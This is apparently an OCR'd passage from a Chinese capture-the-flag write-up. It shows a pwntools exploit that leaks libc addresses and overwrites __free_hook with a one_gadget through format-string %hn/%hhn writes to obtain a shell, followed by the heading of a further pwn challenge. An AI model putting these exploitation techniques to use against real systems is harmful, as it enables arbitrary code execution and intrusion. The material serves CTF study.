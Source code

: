 ```python
pwd[6] = play(120,pay)


success(hex(libc_base+libc.sym['__free_hook']))
success(hex(code_base+0x00000000002030E0))

show_rank()

while 1:
	d = cn.recv(0x100)
	if '2:' in d:
		break

for i in range(7):
	delete(i)


onegadget = 0x4526a+libc_base

pay = '%'+str((stack+0xb0)&0xff)+'c%'+str(9+6)+'$hhn'
pwd[0] = play(120,pay)


pay = '%'+str((onegadget)&0xffff)+'c%'+str(0x18+6)+'$hn'
pwd[1] = play(120,pay)
pay = '%'+str((freehook+2)&0xff)+'c%'+str(0x23+6)+'$hhn'
pwd[2] = play(120,pay)

pay = '%'+str((onegadget>>16)&0xffff)+'c%'+str(0x18+6)+'$hn'
pwd[3] = play(120,pay)
pay = '%'+str((freehook+4)&0xff)+'c%'+str(0x23+6)+'$hhn'
pwd[4] = play(120,pay)

pay = '%'+str((onegadget>>32)&0xffff)+'c%'+str(0x18+6)+'$hn'
pwd[5] = play(120,pay)
pay = '%'+str((freehook+6)&0xff)+'c%'+str(0x23+6)+'$hhn'
pwd[6] = play(120,pay)

show_rank()
success('onegadget: '+hex(onegadget))
#z('b*'+hex(code_base+0x1033)+'\nc')

delete(0)

cn.interactive()
```


### pwn - opm

两个明显的overflow,但是除了got表可写,其他保护全开
